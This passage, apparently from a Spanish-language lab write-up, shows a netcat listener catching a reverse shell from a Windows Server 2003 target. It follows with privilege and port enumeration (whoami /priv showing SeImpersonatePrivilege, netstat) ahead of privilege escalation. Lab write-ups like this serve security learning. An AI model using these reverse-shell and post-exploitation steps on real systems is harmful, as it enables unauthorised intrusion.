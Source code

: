 ```bash
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

Ya nos encontramos dentro de la máquina como el usuario `nt authority\network service`.  Ahora nos falta escalar privilegos, por lo que enumeramos un poco el sistema:

```bash
whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 

c:\windows\system32\inetsrv>
```

Vemos el privilegio `SeImpersonatePrivilege` habilitado y ya debemos estar pensando en **Juicy Potato**; pero para este caso, vamos a hacerlo de otra forma. Vamos a listar los puertos que se encuentran abiertos en la máquina:

```bash
netstat -nat
netstat -nat

Active Connections

  Proto  Local Address          Foreign Address        State           Offload State

  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:1025           0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:1027           0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:5859           0.0.0.0:0              LISTENING       InHost      
  TCP    10.10.10.15:80         10.10.14.16:50124      ESTABLISHED     InHost      
  TCP    10.10.10.15:139        0.0.0.0:0              LISTENING       InHost      
  TCP    10.10.10.15:1033       10.10.14.16:445        ESTABLISHED     InHost      
  TCP    10.10.10.15:1035       10.10.14.16:443        ESTABLISHED     InHost      
  TCP    127.0.0.1:1028         0.0.0.0:0              LISTENING       InHost      
  UDP    0.0.0.0:445            *:*                    
  UDP    0.0.0.0:500            *:*                    
  UDP    0.0.0.0:1026           *:*                    
  UDP    0.0.0.0:4500           *:*                    
  UDP    10.10.10.15:123        *:*                    
```